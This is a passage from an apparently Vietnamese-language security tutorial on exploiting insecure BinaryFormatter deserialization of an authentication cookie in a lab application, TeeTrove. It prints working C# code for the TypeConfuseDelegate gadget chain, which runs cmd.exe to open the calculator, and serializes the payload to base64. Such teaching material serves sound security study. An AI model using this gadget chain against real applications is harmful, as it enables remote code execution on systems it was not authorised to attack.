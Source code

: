 # 9. Ví dụ 3: Khai thác lỗ hổng BinaryFormatter

### Khám Phá Lỗ Hổng
Trong ví dụ này, chúng ta sẽ tìm hiểu một lỗ hổng deserialization khác, tập trung vào cơ chế xác thực của ứng dụng TeeTrove. Cơ chế xác thực của ứng dụng sử dụng `BinaryFormatter` để thực hiện deserialization, điều này tạo ra một lỗ hổng bảo mật nghiêm trọng. Trong đoạn mã dưới đây, chúng ta thấy rằng `BinaryFormatter` được sử dụng để deserialize một phần của `authCookie`, một giá trị được lưu trữ trong cookie `TTAUTH`.

`BinaryFormatter` đã bị xác nhận là không an toàn, và Microsoft cũng đã cảnh báo các nhà phát triển về việc sử dụng nó. Một tìm kiếm đơn giản trên Google hoặc xem tài liệu của Microsoft sẽ xác nhận điều này.

### Phát Triển Khai Thác
Chúng ta biết rằng việc sử dụng `BinaryFormatter` để deserialize dữ liệu người dùng là không an toàn. Bây giờ, chúng ta sẽ tạo một dự án mới trong Visual Studio và phát triển một exploit có thể khai thác lỗ hổng này.

Lần này, gadget `ObjectDataProvider` mà chúng ta sử dụng trước đó sẽ không hoạt động. Tuy nhiên, chúng ta có thể sử dụng gadget `TypeConfuseDelegate` mà chúng ta đã thảo luận trong phần trước.

**Mã gadget `TypeConfuseDelegate`**:

```csharp
// TypeConfuseDelegate gadget
Delegate stringCompare = new Comparison<string>(string.Compare);
Comparison<string> multicastDelegate = (Comparison<string>)MulticastDelegate.Combine(stringCompare, stringCompare);
IComparer<string> comparisonComparer = Comparer<string>.Create(multicastDelegate);
FieldInfo fi = typeof(MulticastDelegate).GetField("_invocationList", BindingFlags.NonPublic | BindingFlags.Instance);
object[] invoke_list = multicastDelegate.GetInvocationList();
invoke_list[1] = new Func<string, string, Process>(Process.Start);
fi.SetValue(multicastDelegate, invoke_list);
SortedSet<string> sortedSet = new SortedSet<string>(comparisonComparer);
sortedSet.Add("/c calc");
sortedSet.Add("C:\\Windows\\System32\\cmd.exe");
```

Bây giờ, chúng ta sẽ serialize đối tượng `SortedSet` này với `BinaryFormatter` và xuất kết quả dưới dạng chuỗi base64:

```csharp
// Serialize with BinaryFormatter (to base64 string)
MemoryStream ms = new MemoryStream();
BinaryFormatter bf = new BinaryFormatter();
bf.Serialize(ms, sortedSet);
Console.WriteLine(Convert.ToBase64String(ms.ToArray()));
```

Khi chạy chương trình, chúng ta thấy máy tính (calculator) được khởi động và chuỗi base64 của `SortedSet` được in ra. Để kiểm tra rằng payload sẽ hoạt động khi deserialization, chúng ta có thể thử sử dụng đoạn mã sau để kiểm tra:
